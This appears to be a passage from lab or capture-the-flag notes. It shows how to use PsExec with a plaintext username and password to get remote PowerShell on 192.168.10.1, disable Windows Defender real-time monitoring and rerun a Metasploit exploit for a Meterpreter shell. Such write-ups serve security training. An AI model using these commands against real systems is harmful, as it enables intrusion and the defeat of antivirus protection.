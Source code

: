 ### 4.3 Using PsExec to stop the Anti-Virus

To get around the the previous issue, one great way to get around the anti-virus deleting the payload is to use **PsExec** from a windows machine

from a windows machine run this command
> Open PowerShell and change directory to where the PsExec tool is 
>> Logon and password used in this case ***A.George*** / ***ethylene***

- Run the following
```powershell
# Go to Directory
cd \to\file\location

#run PsExec with cmd and powershell
.\PsExec.exe \\192.168.10.1 -u A.George powershell

# When prompted
Password: ethylene 

# To Disable Anti-Virus
C:\Windows\system32> Set-MpPreference -DisableRealtimeMonitoring $true
```


- Back in **msfconsole** run the exploit command again
![[Pasted image 20231112170412.png]]
>Meterpreter Shell
>> "im In"